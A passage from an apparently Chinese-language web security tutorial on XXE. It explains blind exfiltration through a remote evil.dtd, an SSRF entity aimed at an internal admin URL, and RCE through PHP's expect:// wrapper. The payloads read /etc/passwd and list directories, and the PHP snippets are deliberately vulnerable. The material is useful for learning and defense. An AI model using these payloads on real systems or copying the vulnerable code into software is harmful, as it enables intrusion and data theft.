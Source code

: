 - **解释**：
    1. 内部实体 `%dtd;` 会加载远程的 `evil.dtd`。
    2. 远程 DTD 定义一个参数实体 `%data;`，其内容是目标文件。
    3. 再定义一个参数实体 `%param;`，它包含一个实体 `&exfil;`，该实体的 URL 中包含了 `%data;`（即文件内容）。
    4. 最终，`&exfil;` 被引用，会向攻击者的服务器发起一个带有文件内容的 HTTP 请求。

### SSRF

利用 XXE 让服务器发起内部网络请求，探测内网资源。

```xml
<!ENTITY xxe SYSTEM "http://192.168.1.1:8080/admin/"> 
```

### 特殊情况下RCE

在一些非常特定的环境下（如 PHP 的 `expect://` 包装器被启用时），XXE 可能导致远程代码执行

条件：

1. PHP 服务器必须**安装并启用了 `expect` 扩展**。
    
    需要手动编译安装或通过包管理器（如 `apt-get install php-expect`）安装，并在 `php.ini` 中启用 `extension=expect`。
    
2. 启用 `allow_url_include` 选项（在 `php.ini` 中）。
    
    因为攻击通常通过 `include()`、`file_get_contents()` 等文件包含函数来触发。
    

常见payload：

利用包装器本身的功能，通过 `include()` 或 `file_get_contents()` 函数来回显输出。

代码存在：

```php
<?php echo file_get_contents($_GET['file']); ?>
```

payload：

```php
http://vulnerable-site.com/vuln.php?file=expect://ls+-la+/home
```

代码：

```php
<?php include($_GET['include_file']); ?>
```

payload:

```php
http://vulnerable-site.com/vuln.php?include_file=expect://cat+/etc/passwd
```

## 常见协议总结

### 通用
